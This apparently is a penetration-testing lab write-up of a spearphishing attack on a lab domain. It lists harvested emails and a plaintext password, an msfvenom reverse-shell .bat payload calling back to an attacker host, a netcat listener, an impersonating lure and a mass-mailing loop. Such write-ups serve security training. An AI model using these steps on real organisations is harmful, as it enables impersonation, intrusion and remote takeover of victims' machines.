





# Phishing

- [123](#123)

----

## Email collected

So far we have collected the following email information:

* (SSL Cert Admin / Senior Scientist)
iyer@atomic-nuclear.site

```
UserName: iyer
Passwd: Iyer@123
Port: 110,143
```

* (SSL Cert Admin)
admin@atomic-nuclear.site
* (Senior Principal Scientist)
homi@atomic-nuclear.site

<br/>

Note a mail server is availableon `192.168.8.3` (`atomic-nuclear.site`):

> - Mail:
>   - tcp/25, tcp/110, tcp/143
>   - Dovecot

<br/>

## Phishing Preparation

> Technique:<br/>
> T1566.001 Spearphishing Attachment<br/>
> https://attack.mitre.org/techniques/T1566/001/

<br/>

Prepare a reverse powershell payload (in `.bat` format) using `msfvenom`:

```
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.100.11 LPORT=443 > ProgressUpdate.bat
```
  

<br/>

Prepare a list of collected emails:
```
cat >> emails.txt<<EOF
> iyer@atomic-nuclear.site
> admin@atomic-nuclear.site
> homi@atomic-nuclear.site
> 
> EOF
```
  

<br/>

Prepare a phishing message, impersonating one of the found person in the target organization `Hafiz`:
```
cat >> email_msg.txt <<EOF
> Hello,
> 
> Please find the research progress update in the attached. This update is really important and make sure you check it out.
> 
> Regards,
> Hafiz
> EOF
```

  

<br/>

## Exploitation

First launch a netcat listener:

```
nc -nlvp 443
```

<br/>


Then send phishing emails with attachment to the target emails:

```
for email in $(cat emails.txt); do sendemail -l email.log -f "hafiz@atomic-nuclear.xyz" -u "[IMPORTANT] Research Progress Update" -m $(cat email_msg.txt) -t "$email" -s "atomic-nuclear.site:25" -o tls=no -a ProgressUpdate.bat; done
```

  

* As shown, the email message was delivered to `iyer@atomic-nuclear.site` successfully.

<br/>

After a while, a reverse shell calls back to the netcat listener:

  

<br/>

